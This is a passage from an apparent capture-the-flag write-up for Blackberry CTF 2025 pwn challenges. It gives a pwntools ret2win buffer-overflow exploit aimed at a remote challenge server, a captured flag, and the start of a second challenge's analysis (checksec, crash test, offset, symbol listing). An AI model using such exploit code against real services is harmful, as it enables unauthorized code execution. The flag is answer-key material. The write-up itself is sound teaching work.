 ```python
from pwn import *

elf = ELF("./smoll-but-angy")
# p = elf.process()
p = remote("157.180.92.15", 41432)
context.binary = elf
# context.log_level = "debug"

offset = 136
payload = flat({
	offset: elf.symbols["treasure"]
	})

p.sendline(payload)
p.interactive()
```

Flag: bbctf{1_L1k3_wh4t_yO0U_90t_93fe215}

### smoll but spooky (Pwn)

> The legend speaks of a ghostly vessel doomed to sail the seas forever, its captain bound by a fate worse than death. Those who dare cross its path must break free before they, too, become part of the crew. The echoes of the past hold the bash. Follow them right, and ye might just escape the cursed grip of the Flying Dutchman.
> 
> **Author: OS1R1S**

This is another ret2win challenge with function parameters.

Binary protections:
```
(ctfvenv) benkyou@fedora:~/Dev/bbctf/smolspooky$ checksec *
[*] '/home/benkyou/Dev/bbctf/smolspooky/smoll-but-spooky'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

No protections :D

The program is vulnerable to buffer overflow.
```
root@d514c19eb5eb:/ctf# python3 -c 'print("A"*100)' | ./smoll-but-spooky 
Is it that spooky?Welcome to Blackberry CTF 2025, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Segmentation fault
```

However, this challenge had some sort of anti-debugging(?) so I couldnt' step through the program.

I played around with different lengths, and eventually found the offset at 24.

If we look at the symbols in the binary, `system` is somewhere in the program, and binsh is stored in `.data`.
```
root@d514c19eb5eb:/ctf# nm ./smoll-but-spooky 
...[SNIP]...
0000000000601048 D binsh
0000000000601050 b completed.7594
0000000000601038 W data_start
0000000000400510 t deregister_tm_clones
00000000004005b0 t frame_dummy
00000000004005d6 T main
                 U printf@@GLIBC_2.2.5
```